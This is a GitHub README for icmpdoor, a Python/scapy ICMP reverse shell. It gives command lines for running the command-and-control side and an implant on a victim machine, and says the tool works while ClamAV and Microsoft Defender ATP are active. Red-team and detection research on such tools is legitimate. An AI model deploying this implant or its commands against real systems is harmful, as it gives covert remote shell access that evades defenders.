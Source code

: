 # icmpdoor - ICMP Reverse Shell
icmpdoor is an ICMP rev shell written in Python3 and scapy. Tested on Ubuntu 20.04, Debian 10 (Kali Linux), and Windows 10. 

[Read this blog post for more information.](https://cryptsus.com/blog/icmp-reverse-shell.html)

**Python version usage (both Windows and Linux):**
```bash
./icmp-cnc.py -i INTERFACE -d VICTIM-IP (Command and Control)
./icmpdoor.py -i INTERFACE -d CNC-IP (Implant)
```

**Binary Windows version usage version:**
```bash
./icmp-cnc.exe -d VICTIM-IP (Command and Control)
./icmpdoor.exe -d CNC-IP (Implant)
```

**Binary Linux version usage version:**
```bash
./icmp-cnc -d VICTIM-IP (Command and Control)
./icmpdoor -d CNC-IP (Implant)
```

**Parameters details:**
```bash
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Listener (virtual) Network Interface (e.g. eth0)
  -d DESTINATION_IP, --destination_ip DESTINATION_IP
                        Destination IP address
  exit                  Exit Command and Control (E2)
  ```
# Screenshots
Screenshot 1 and 2 shows how icmpdoor works on Ubuntu 20.04, Debian 10 (Kali Linux) and Windows 10. ClamAV is active on Ubuntu 20.04:
![screen1](https://cryptsus.com/blog/icmp-reverse-shell-linux.jpg)
Microsoft Defender Advanced Threat Protection (ATP) is active on the Windows 10 Enterprise machine:
![screen2](https://cryptsus.com/blog/icmp-reverse-shell-windows.jpg)

# Beta
stryngs created a beta to combine both scripts into one. This way Classes are created, which are fundamental for enabling encryption.

# License
Berkeley Software Distribution (BSD)

# Author
[Jeroen van Kessel](https://twitter.com/jeroenvkessel) | [cryptsus.com](https://cryptsus.com) - we craft cyber security solutions
